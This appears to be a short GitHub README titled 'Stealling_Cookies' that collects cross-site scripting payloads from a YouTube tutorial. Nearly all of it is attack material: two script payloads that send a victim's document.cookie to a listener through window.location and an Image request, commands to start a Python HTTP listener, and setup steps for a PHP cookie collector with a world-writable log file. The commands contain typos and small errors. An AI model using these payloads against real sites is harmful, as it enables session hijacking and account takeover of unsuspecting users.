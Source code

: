 # Stealling_Cookies

All Payload that used from this Youtube Video:

https://youtu.be/Kh1sgI5yLdk


Payloads:

# Takeing The Cookie From Python3 Server Listener:

1- Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2- write Payload with window.location() function:

<script> window.location='https://127.0.0.1/:3333?cookie='+document.cookie </script> 


# Send Cookies with out go another Window :

1- Strat Python Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2- write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie:

1- go to html File:

[~] YasserREED> cd  /var/www/html

2- make File get.php:

YasserrEED> sudo gedit get.php

// Code with the File Just Copy it 

2- make log.txt

YasserrEED> sudo touch log.txt

3- give all Privileges:

YasserREED> sudo chmod 777 log.txt


